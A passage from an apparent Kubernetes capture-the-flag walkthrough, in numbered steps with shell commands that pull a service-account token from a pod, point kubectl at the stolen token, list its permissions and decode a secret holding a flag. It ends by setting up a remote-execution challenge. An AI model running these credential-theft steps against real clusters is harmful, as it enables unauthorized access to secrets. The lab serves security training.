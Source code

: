 134. Now we want to request the token from that pod. Get its IP address:

        ```shell
        podip=$(kubectl get pod getsa -o wide | grep getsa | awk '{print $6}')
        ```

135. Request the token:

        ```shell
        curl http://${podip}:8000/token
        ```

136. Put the token in a file called "davincitoken":

        ```shell
        curl http://${podip}:8000/token >/davincitoken
        ```

137. Tweak your kubectl alias to use this token:

        ```shell
        alias kubectl="kubectl --token=$(cat /davincitoken) \
        --server="https://kubernetes.default.svc.cluster.local" \
        --certificate-authority=$tokendir/ca.crt \
        -n ellingson-min"
        ```

138. Ask what this token is allowed to do in the ellingson-min namespace:

        ```shell
        kubectl auth can-i --list
        ```

139. Notice that we're allowed to create, read and list services, read the `flag-davinci` secret, and read and list pods.

        ```
        services                                        []                                    []               [create get list]
        secrets                                         []                                    [flag-davinci]   [get]
        pods                                            []                                    []               [list get]
        ```

140. Grab the flag from the `flag-davinci` secret:

        ```shell
        kubectl get secret flag-davinci -o yaml | egrep -A 1 'data:' | \
          grep flag | awk '{print $2}' | base64 -d
        ```
141. Think about the last challenge:

        ```
        Flag challenge 3:

        Connect to the ellingson-min namespace's gibson pod and get 
        remote execution inside that pod.
        ```
